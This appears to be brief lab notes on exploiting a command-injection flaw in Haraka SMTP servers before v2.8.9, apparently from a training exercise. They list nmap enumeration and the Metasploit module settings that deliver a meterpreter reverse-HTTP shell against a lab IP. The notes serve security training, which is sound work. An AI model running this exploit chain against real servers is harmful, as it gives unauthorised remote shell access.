 # Exploiting SMTP

- SMTP (Simple mail transfer protocol) is used for transferring emails.
- SMTP runs on TCP port 25 by Default
##### VULNERABILITY:
Haraka is an open source SMTP server developed in Node.js but Haraka versions prior `Haraka V2.8.9` are vulnerable to command injection.

#### INITIAL ENUMERATION:

```
db_nmap -sV 192.24.213.3
```

```
search name:haraka type:exploit
```

#### EXPLOITATION:

```
use exploit/linux/smtp/haraka 
set RHOSTS 192.24.213.3
set SRVPORT 9898
set email_to root@attackdefense.test
set PAYLOAD linux/x64/meterpreter_reverse_http
exploit
```

